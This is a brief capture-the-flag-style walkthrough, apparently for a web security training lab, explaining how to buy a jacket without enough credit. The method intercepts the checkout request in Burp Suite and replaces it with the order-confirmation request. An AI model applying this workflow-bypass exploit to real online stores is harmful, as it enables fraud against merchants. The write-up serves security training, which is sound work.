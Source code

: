 # Insufficient workflow validation

## This lab makes flawed assumptions about the sequence of events in the purchasing workflow. To solve the lab, exploit this flaw to buy a "Lightweight l33t leather jacket".

## You can log in to your own account using the following credentials: `wiener:peter`

---

### step 1

login user id and password order any item with below credit balance
place the order
go to burpsuit and check the page confirm order

```javascript
GET /cart/order-confirmation?order-confirmed=true HTTP/1.1
```

notice here `order-confirmed=true`

### step2

order "Lightweight l33t leather jacket" and place the order and intercept

```javascript
POST /cart/checkout HTTP/1.1
```

change this to

```javascript
GET /cart/order-confirmation?order-confirmed=true HTTP/1.1
```

and forward and intercept off
